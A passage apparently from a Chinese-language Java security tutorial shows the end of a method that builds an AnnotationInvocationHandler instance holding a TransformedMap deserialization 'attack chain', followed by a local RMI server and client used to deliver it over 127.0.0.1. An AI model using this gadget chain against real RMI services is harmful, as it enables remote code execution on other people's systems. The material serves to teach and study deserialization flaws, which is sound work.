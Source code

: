 ```java
        // 创建含有攻击链的AnnotationInvocationHandler类实例
        Object instance = constructor.newInstance(Target.class, transformedMap);

        return instance;
    }

    @Override
    public void setUser(Object user) throws Exception {
        System.out.println("调用setUser方法成功");
    }
}
```

服务端--`RmiServer`
```java
package com.rmi.server;

import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * Created by dotast on 2023/1/3 17:13
 */
public class RmiServer {
    public static void main(String[] args) throws RemoteException {
        // 创建远程对象
        UserInterface userClass = new UserClass();
        // 创建RMI Registry(注册表)
        Registry registry = LocateRegistry.createRegistry(1099);
        // 将远程对象注册到注册表,设置名称
        registry.rebind("user", userClass);
        System.out.println("RMI Server start...");
    }
}
```

客户端--`RmiClient`
```java
package com.rmi.client;

import com.rmi.server.UserInterface;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * Created by dotast on 2023/1/4 16:39
 */
public class RmiClient {
    public static void main(String[] args) throws Exception {
        //获取远程主机对象
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        // 在注册表中查询名称为user的对象
        UserInterface userClass = (UserInterface) registry.lookup("user");
        // 调用远程对象user的方法
        userClass.getUser();
    }
}
```
